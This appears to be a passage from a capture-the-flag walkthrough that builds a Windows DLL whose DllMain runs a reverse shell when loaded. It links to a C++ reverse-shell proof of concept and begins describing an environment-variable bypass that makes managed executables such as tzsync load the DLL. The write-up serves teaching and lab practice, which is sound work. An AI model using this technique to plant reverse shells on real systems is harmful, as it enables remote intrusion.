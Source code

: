 ![1552438998178](https://0xdfimages.gitlab.io/img/1552438998178.png)

Give it a name, and hit “OK”.

Now find the [C++ reverse shell you want to
use](https://raw.githubusercontent.com/tudorthe1ntruder/reverse-shell-
poc/master/rs.c), and paste it into `revshell.cpp`. I’ll use the same one that
IppSec used, and make the same edits, fixing `WSASocket` to `WSASocketW`, and
changing `int main(int argc, char *argv[])` to `void revshell()`.

Next I’ll add the header file, call it `revshell.h`, and put in the function
declaration:

    
    
    #pragma once
    void revshell();
    

The program already created `dllmain.cpp` for me. I’ll just add in an include
for `revshell`, and a call under `DLL_PROCESS_ATTACH`:

    
    
    // dllmain.cpp : Defines the entry point for the DLL application.
    #include "stdafx.h"
    #include "revshell.h"
    
    BOOL APIENTRY DllMain( HMODULE hModule,
                           DWORD  ul_reason_for_call,
                           LPVOID lpReserved
                         )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
    		revshell();
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
        }
        return TRUE;
    }
    

I’ll build the project, and find the dll where it reports:

![1552439657920](https://0xdfimages.gitlab.io/img/1552439657920.png)

## Run It

### Custom Dll

Now I’ll run the bypass. All I need to do is set the environment variables,
and then run an exe that’s managed. IppSec showed `tzsync`. `powershell` works
too.
